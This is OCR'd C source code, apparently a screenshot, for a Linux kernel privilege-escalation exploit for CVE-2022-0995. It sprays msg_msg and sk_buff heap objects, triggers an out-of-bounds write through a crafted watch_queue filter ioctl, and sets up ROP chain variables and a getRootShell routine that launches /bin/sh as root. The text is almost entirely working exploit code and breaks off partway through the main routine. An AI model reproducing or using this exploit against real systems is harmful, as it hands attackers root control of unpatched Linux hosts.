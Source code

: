 ```
 Status has been saved.\033[0m\n");}struct list_head{    uint64_t    next;    uint64_t    prev;};struct msg_msg{    struct list_head m_list;    uint64_t    m_type;    uint64_t    m_ts;    uint64_t    next;    uint64_t    security;};struct msg_msgseg{    uint64_t    next;};struct {    long mtype;    char mtext[PRIMARY_MSG_SIZE - sizeof(struct msg_msg)];}primary_msg;struct {    long mtype;    char mtext[SECONDARY_MSG_SIZE - sizeof(struct msg_msg)];}secondary_msg;/* * skb_shared_info need to take 320 bytes at the tail * so the max size of buf we should send is: * 1024 - 320 = 704 */char fake_secondary_msg[704];struct{    long mtype;    char mtext[0x1000 - sizeof(struct msg_msg) + 0x1000 - sizeof(struct msg_msgseg)];} oob_msg;struct pipe_buffer{    uint64_t    page;    uint32_t    offset, len;    uint64_t    ops;    uint32_t    flags;    uint32_t    padding;    uint64_t    private;};struct pipe_buf_operations{    uint64_t    confirm;    uint64_t    release;    uint64_t    try_steal;    uint64_t    get;};void errExit(char *msg){    printf("\033[31m\033[1m[x] Error: %s\033[0m\n", msg);    exit(EXIT_FAILURE);}int readMsg(int msqid, void *msgp, size_t msgsz, long msgtyp){    return msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, 0);}int writeMsg(int msqid, void *msgp, size_t msgsz, long msgtyp){    *(long*)msgp = msgtyp;    return msgsnd(msqid, msgp, msgsz - sizeof(long), 0);}int peekMsg(int msqid, void *msgp, size_t msgsz, long msgtyp){    return msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, MSG_COPY | IPC_NOWAIT);}void buildMsg(struct msg_msg *msg, uint64_t m_list_next,    uint64_t m_list_prev, uint64_t m_type, uint64_t m_ts,     uint64_t next, uint64_t security){    msg->m_list.next = m_list_next;    msg->m_list.prev = m_list_prev;    msg->m_type = m_type;    msg->m_ts = m_ts;    msg->next = next;    msg->security = security;}int spraySkBuff(int sk_socket[SOCKET_NUM][2], void *buf, size_t size){    for (int i = 0; i < SOCKET_NUM; i++)        for (int j = 0; j < SK_BUFF_NUM; j++)        {            // printf("[-] now %d, num %d\n", i, j);            if (write(sk_socket[i][0], buf, size) < 0)                return -1;        }    return 0;}int freeSkBuff(int sk_socket[SOCKET_NUM][2], void *buf, size_t size){    for (int i = 0; i < SOCKET_NUM; i++)        for (int j = 0; j < SK_BUFF_NUM; j++)            if (read(sk_socket[i][1], buf, size) < 0)                return -1;    return 0;}void trigerOutOfBoundWrite(int pipe_fd[2]){    struct watch_notification_filter *wfilter;    unsigned int nfilters;    nfilters = 4;    wfilter = (struct watch_notification_filter*)            calloc(1, sizeof(struct watch_notification_filter)                + nfilters * sizeof(struct watch_notification_type_filter));    wfilter->nr_filters = nfilters;    // normal filter    for (int i = 0; i < (nfilters - 1); i++)        wfilter->filters[i].type = 1;    // evil filter    // 0x300 = 64 * 12, 12 * 8 = 96bytes    // 1 << 0xa = 1024, maybe we can hit a proper bit    wfilter->filters[nfilters - 1].type = 0x30a;    // triger oob write    if (ioctl(pipe_fd[0], IOC_WATCH_QUEUE_SET_FILTER, wfilter) < 0)        errExit("failed to ioctl IOC_WATCH_QUEUE_SET_FILTER!");    // prevent memory leak in userspace(no need in fact)    free(wfilter);}void getRootShell(void){    if (getuid())        errExit("failed to gain the root!");    printf("\033[32m\033[1m[+] Succesfully gain the root privilege, trigerring root shell now...\033[0m\n");    system("/bin/sh");}int main(int argc, char **argv, char **envp){    int         oob_pipe_fd[2];    int         sk_sockets[SOCKET_NUM][2];    int         pipe_fd[PIPE_NUM][2];    int         msqid[MSG_QUEUE_NUM];    int         victim_qid, real_qid;    struct msg_msg  *nearby_msg;    struct msg_msg  *nearby_msg_prim;    struct pipe_buffer *pipe_buf_ptr;    struct pipe_buf_operations *ops_ptr;    uint64_t    victim_addr;    uint64_t    kernel_base;    uint64_t    kernel_offset;    uint64_t    *rop_chain;    int         rop_idx;    cpu_set_t   cpu_set;    saveStatus();    /*     * Step.O     * Initialization     */    puts("\033[32m\033[1m[+] CVE-2022-0995 Linux Privilege Escalation.\033[0m");    // run the exp on specific core only    CPU_ZERO(&cpu_set);    CPU_SET(0, &cpu_set);    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);    // pipe to trigert off-by-null    if (pipe2(oob_pipe_fd, O_NOTIFICATION_PIPE) < 0)        errExit("failed to create O_NOTIFICATION_PIPE!");    // socket pairs to spray sk_buff    for (int i = 0; i < SOCKET_NUM; i++)        if (socketpair(AF_UNIX, SOCK_STREAM, 0, sk_sockets[i]) < 0)            errExit("failed to create socket pair!");    /*     * Step.I     * build msg_queue, spray primary and secondary msg_msg,     * and use OOB write to construct the overlapping     */    puts("\n\033[34m\033[1m
 Step.I spray msg_msg, construct overlapping object\033[0m");    puts("
 Build message queue...");    // build 4096 message queue    for (int i = 0; i < MSG_QUEUE_NUM; i++)    {        if ((msqid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) < 0)            errExit("failed to create msg_queue!");    }    puts("
 Spray primary and secondary msg_msg...");    memset(&primary_msg, 0, sizeof(primary_msg));    memset(&secondary_msg, 0, sizeof(secondary_msg));    // spray primary and secondary message    for (int i = 0; i < MSG_QUEUE_NUM; i++)    {        *(int *)&primary_msg.mtext[0] = MSG_TAG;        *(int *)&primary_msg.mtext[4] = i;        if (writeMsg(msqid[i], &primary_msg,                 sizeof(primary_msg), PRIMARY_MSG_TYPE) < 0)            errExit("failed to send primary msg!");        *(int *)&secondary_msg.mtext[0] = MSG_TAG;        *(int *)&secondary_msg.mtext[4] = i;        if (writeMsg(msqid[i], &secondary_msg,                 sizeof(secondary_msg), SECONDARY_MSG_TYPE) < 0)            errExit("failed to send secondary msg!");    }    // create hole in primary msg_msg    puts("
```